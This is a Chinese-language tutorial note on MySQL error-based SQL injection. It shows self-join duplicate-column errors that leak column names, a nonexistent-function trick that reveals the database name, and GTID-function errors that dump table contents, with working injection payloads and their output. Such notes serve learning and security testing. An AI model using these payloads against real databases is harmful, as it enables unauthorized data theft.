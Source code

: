 列名具有唯一性,列名重复则会报错,利用这一特性可以进行无列名注入

>例子

利用name_const来制造一个列,但参数需要是常量(The arguments should be constants)

[https://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_name-const](https://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_name-const)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211544831.png)

>无列名注入

[MySQL JOIN 菜鸟教程](https://www.runoob.com/mysql/mysql-join.html)

通过`join`可建立两个表之间的内连接,通过对要查询列名的表与其自身进行内连接,会产生的相同列名,从而发生错误带出数据(即列名)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211800660.png)

`using()`用于两张表之间的`join`连接查询,并且`using()`中的列在两张表中都存在,由此剔除掉前一次注入时得到的列名

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211803273.png)

```
select * from(select * from table1 as a join table1 as b)c;
select * from(select * from table1 as a join table1 as b using (id))c;
select * from(select * from table1 as a join table1 as b using (id,username))c;
```

### 调用不存在的函数可读取数据库名字

```
select misaka();
(1305, 'FUNCTION sql_injection_test.misaka does not exist')
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212343727.png)

### GTID函数

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201242037203.png)

```
select gtid_subset(user(),1);
(1772, "Malformed GTID set specification 'root@172.18.0.1'.")
select gtid_subtract(user(),1);
(1772, "Malformed GTID set specification 'root@172.18.0.1'.")
select gtid_subtract((select group_concat(id) from sql_injection_test.table1),1);
(1772, "Malformed GTID set specification '1,2,3,4'.")
select gtid_subtract((select group_concat(username) from sql_injection_test.table1),1);
(1772, "Malformed GTID set specification 'admin,tim,mike,mike'.")
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201242045868.png)

```
select * from table1 where id='1' and gtid_subtract((select group_concat(username) from sql_injection_test.table1),1)='1'#
(1772, "Malformed GTID set specification 'admin,tim,mike,mike'.")
select * from table1 where id='1' or gtid_subtract((select group_concat(username) from sql_injection_test.table1),1)='1'#
(1772, "Malformed GTID set specification 'admin,tim,mike,mike'.")
```
